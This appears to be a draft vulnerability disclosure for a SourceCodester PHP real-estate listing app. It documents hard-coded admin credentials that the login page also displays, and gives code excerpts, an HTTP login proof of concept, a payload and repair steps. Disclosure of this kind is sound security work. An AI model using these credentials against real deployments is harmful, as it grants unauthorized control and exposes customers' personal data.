


# SourceCodester Real Estate Property Listing App 1.0 /admin/login.php username= Use of Hard-coded Default Credentials

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18526/real-estate-property-listing-app-using-php-and-mysql-source-code.html
- https://www.sourcecodester.com/download-code?nid=18526

## Overview

- Real Estate Property Listing App (Using PHP and MySQL), version 1.0 (current public download, 2026-11), hard-codes the administrator account `admin`/`admin123` directly in `admin/login.php`, compares submitted credentials against these constants, and — to remove even the last bit of attacker effort — **prints the credentials on the unauthenticated login page itself** under "Default credentials". Every deployment of this product that has not rewritten its source code is fully compromised by any visitor who can reach `/admin/login.php`: the working username and password are displayed to them on the very page they must type them into.

## Details

- Vulnerable file: `/admin/login.php`
- Affected version: 1.0 (current public download, 2026-11)
- Hard-coded credentials — the authentication "database" is two plaintext constants:

```php
// admin/login.php:4-6
// Hardcoded admin credentials
$valid_username = 'admin';
$valid_password = 'admin123';
```

- Successful authentication is a plain string comparison against those constants, which immediately grants the full admin session used by every admin/* page (`requireAuth()` in `config.php:24-29` only checks `$_SESSION['admin_logged_in'] === true`):

```php
// admin/login.php:13-15
if ($username === $valid_username && $password === $valid_password) {
    $_SESSION['admin_logged_in'] = true;
    $_SESSION['admin_username'] = $username;
```

- Login-page advertisement — the unauthenticated login page renders the credentials on screen:

```php
// admin/login.php:75-81
<div class="text-center mt-2" style="color: var(--secondary);">
    <small>
        <strong>Default credentials:</strong><br>
        Username: <code>admin</code><br>
        Password: <code>admin123</code>
    </small>
</div>
```

- There is no setup wizard, no first-login forced password rotation, and no rate limiting on the login form. Full admin control means: create/edit/delete property listings (including the unrestricted image upload documented in CVE-2025-14530), and read/delete every customer inquiry (name, email, phone, message).

## Description

- Anyone who downloads this product — or simply opens its login page — is handed full administrative access to every deployment that did not manually rewrite the authentication code. The `admin` account controls all listing content and all customer inquiries; in the product's real use case (a real-estate agency site), an outsider can delete listings, forge property data and prices, harvest every prospective buyer's personal contact details, and plant malicious files via the known upload flaw. Because the credentials are printed on the login page itself, no attacker reconnaissance of any kind is required.

## PoC

- Step 1 — the login page displays the working credentials to unauthenticated visitors (`GET /admin/login.php`, response body excerpt):

```html
<strong>Default credentials:</strong><br>
Username: <code>admin</code><br>
Password: <code>admin123</code>
```

- Step 2 — authenticate with them:

```
POST /admin/login.php HTTP/1.1
Host: 127.0.0.1:8144
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin123
```

- Response (full admin session granted):

```
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=3f860jo4jj9a4sv4c1lf82m403; path=/
Location: index.php
```

- Step 3 — the subsequent `GET /admin/index.php` with the session cookie returns the full admin dashboard (property/inquiry statistics, "Logged in as: admin").

## Payload

```
username=admin&password=admin123
```

## Screenshot: credentials advertised on the public login page

The login page displays the working default credentials to every unauthenticated visitor ("Default credentials: Username admin / Password admin123"). The POST returns `302 → index.php` with a session, and the dashboard renders with full admin statistics.





Full evidence log: `poc/F01-default-creds.txt` (HTML excerpt, live login exchange with headers, dashboard verification).

## Suggested repair

1. Remove the hard-coded constants at `admin/login.php:5-6`; store the administrator credential as a salted hash (`password_hash()`/`password_verify()`) in the database and require it to be set during installation.
2. Remove the "Default credentials" hint block at `admin/login.php:75-81` — shipped products must never print credentials in the unauthenticated UI.
3. Add a setup/first-run wizard that refuses to serve the application until the default account has been replaced, and force a password change on first login.
4. Add login rate limiting / account lockout and audit deployments for accounts still using the factory password.

## Dedup note

- NVD: keyword sweep returns 8 hits, of which exactly one belongs to this product — CVE-2025-14530 (unrestricted upload of the `image` argument in `/admin/property.php`). No existing CVE covers `admin/login.php` or the credentials issue (checked 2026-11-09).
- VulDB: the product has exactly one entry, VDB-335871 (= CVE-2025-14530, same upload issue). Different file and different vulnerability type from this finding → release.
